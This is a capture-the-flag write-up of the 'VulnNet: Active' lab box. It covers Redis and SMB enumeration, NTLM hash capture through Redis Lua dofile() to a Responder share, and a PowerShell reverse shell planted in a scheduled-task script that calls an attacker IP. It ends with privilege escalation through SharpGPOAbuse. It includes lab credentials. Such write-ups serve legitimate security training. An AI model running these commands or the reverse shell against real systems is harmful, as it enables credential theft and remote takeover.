






# VulnNet: Active

**Hostname:**\
`VULNNET-BC3TCK1`

**OS:**\
`Windows 10 Server 2019`

**Users:**\
`enterprise-security`

**Credentials:**\
`enterprise-security:sand_0873959498`

**Domain:**\
`vulnnet.local`

## Port Scan:

```
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
6379/tcp  open     redis         Redis key-value store 2.8.2402
9389/tcp  open     mc-nmf        .NET Message Framing
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49669/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open     msrpc         Microsoft Windows RPC
49677/tcp open     msrpc         Microsoft Windows RPC
49696/tcp filtered unknown
49697/tcp open     msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-01T13:28:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```


## Recon:

### SMB

**Anonymous login:**
```
VULNNET-BC3TCK1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)
VULNNET-BC3TCK1  [+] vulnnet.local\: 
VULNNET-BC3TCK1  [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

**Authenticated:**
```
[*] Windows 10 / Server 2019 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)
[+] vulnnet.local\enterprise-security:sand_0873959498 
[*] Enumerated shares
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
Enterprise-Share READ,WRITE      
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share 
SYSVOL          READ            Logon server share
```

### Redis

**`INFO` Command Output:**
```
# Server
redis_version:2.8.2402
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:b2a45a9622ff23b7
redis_mode:standalone
os:Windows  
arch_bits:64
multiplexing_api:winsock_IOCP
process_id:2984
run_id:80317287ab7e1da2b5c8df33ebf71220563b5e05
tcp_port:6379
uptime_in_seconds:528
uptime_in_days:0
hz:10
lru_clock:6546104
config_file:

# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:0
blocked_clients:0

# Memory
used_memory:952952
used_memory_human:930.62K
used_memory_rss:919408
used_memory_peak:977296
used_memory_peak_human:954.39K
used_memory_lua:36864
mem_fragmentation_ratio:0.96
mem_allocator:dlmalloc-2.8

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1751376040
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok

# Stats
total_connections_received:2
total_commands_processed:4
instantaneous_ops_per_sec:0
total_net_input_bytes:98
total_net_output_bytes:0
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0

# Replication
role:master
connected_slaves:0
master_repl_offset:0
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.14
used_cpu_user:0.14
used_cpu_sys_children:0.00
used_cpu_user_children:0.00
```

**`CONFIG GET *` Command Output:**
```
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) ""
  5) "masterauth"
  6) ""
  7) "unixsocket"
  8) ""
  9) "logfile"
 10) ""
 11) "pidfile"
 12) "/var/run/redis.pid"
 13) "maxmemory"
 14) "0"
 15) "maxmemory-samples"
 16) "3"
 17) "timeout"
 18) "0"
 19) "tcp-keepalive"
 20) "0"
 21) "auto-aof-rewrite-percentage"
 22) "100"
 23) "auto-aof-rewrite-min-size"
 24) "67108864"
 25) "hash-max-ziplist-entries"
 26) "512"
 27) "hash-max-ziplist-value"
 28) "64"
 29) "list-max-ziplist-entries"
 30) "512"
 31) "list-max-ziplist-value"
 32) "64"
 33) "set-max-intset-entries"
 34) "512"
 35) "zset-max-ziplist-entries"
 36) "128"
 37) "zset-max-ziplist-value"
 38) "64"
 39) "hll-sparse-max-bytes"
 40) "3000"
 41) "lua-time-limit"
 42) "5000"
 43) "slowlog-log-slower-than"
 44) "10000"
 45) "latency-monitor-threshold"
 46) "0"
 47) "slowlog-max-len"
 48) "128"
 49) "port"
 50) "6379"
 51) "tcp-backlog"
 52) "511"
 53) "databases"
 54) "16"
 55) "repl-ping-slave-period"
 56) "10"
 57) "repl-timeout"
 58) "60"
 59) "repl-backlog-size"
 60) "1048576"
 61) "repl-backlog-ttl"
 62) "3600"
 63) "maxclients"
 64) "10000"
 65) "watchdog-period"
 66) "0"
 67) "slave-priority"
 68) "100"
 69) "min-slaves-to-write"
 70) "0"
 71) "min-slaves-max-lag"
 72) "10"
 73) "hz"
 74) "10"
 75) "repl-diskless-sync-delay"
 76) "5"
 77) "no-appendfsync-on-rewrite"
 78) "no"
 79) "slave-serve-stale-data"
 80) "yes"
 81) "slave-read-only"
 82) "yes"
 83) "stop-writes-on-bgsave-error"
 84) "yes"
 85) "daemonize"
 86) "no"
 87) "rdbcompression"
 88) "yes"
 89) "rdbchecksum"
 90) "yes"
 91) "activerehashing"
 92) "yes"
 93) "repl-disable-tcp-nodelay"
 94) "no"
 95) "repl-diskless-sync"
 96) "no"
 97) "aof-rewrite-incremental-fsync"
 98) "yes"
 99) "aof-load-truncated"
100) "yes"
101) "appendonly"
102) "no"
103) "dir"
104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"
105) "maxmemory-policy"
106) "volatile-lru"
107) "appendfsync"
108) "everysec"
109) "save"
110) "jd 3600 jd 300 jd 60"
111) "loglevel"
112) "notice"
113) "client-output-buffer-limit"
114) "normal 0 0 0 slave 268435456 67108864 60 pubsub 33554432 8388608 60"
115) "unixsocketperm"
116) "0"
117) "slaveof"
118) ""
119) "notify-keyspace-events"
120) ""
121) "bind"
122) ""
```

**Bloodhound Enumeration**


## Foothold / Privilege Escalation:

### Initial Foothold

Through the port scan I saw the redis port open (port 6379). I enumerated the redis database for the version and found a valid user `enterprise-security` by using the `CONFIG GET *` redis-cli command.
Using the `eval` command I could execute lua code and send a request to a file on a remote share using the `dofile()` function.

I used this to make a request to my Responder SMB server and get the `enterprise-security` user NTLM hash.



I then used hashcat to crack it.
With the credentials I am able to login to the SMB server and see that it contains a powershell script which is possibly a scheduled task script, so I downloaded it and edited it with a reverse shell command from PayloadsAllTheThings.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.23.113.200',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

I uploaded it back to the server under the same name and waited for the task to run so it connects to my listener.



---

### Privilege Escalation:

I used Sharphound to gather data so I could feed it to Bloodhound. 



Using the GUI I found that the user `enterprise-security` has GenericWrite permissions to a Group Policy Object. I can exploit this to get local Administrator by using the GPO Abuse exploit technique.



For this exploit I used SharpGPOAbuse.exe from the repo that contained already precompiled executable: [Link](https://github.com/byronkg/SharpGPOAbuse)

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount enterprise-security --GPOName "SECURITY-POL-VN"
```

I uploaded the exploit through SMB and executed it inside the share.



After using the exploit, wait a bit for the GPO refresh cycle and the I can login to the C: drive through SMB and access the Administrator directory to get the system flag.



## Journal:

#### Using redis-cli to perform SMB requests
Using the `eval` command it is possible to execute arbitrary Lua code.
With this it is possible to perform a request to a rogue SMB server to capture NTLM hashes. To do this use the `dofile()` Lua function with the `eval` command.

```
$ sudo responder -I tun0

redis-cli> eval "dofile('//$RESPONDER_IP//Share')"
```

#### GenericWrite Permissions to a domain GPO Privilege Escalation Technique
If a Domain Admin has GenericWrite permissions to a GPO policy it is possible to add that user to the LocalAdministrators group.
- Attack known as Windows GPO Abuse
- Exploit with tools like: SharpGPOAbuse, PowerGPOAbuse, pyGPOAbuse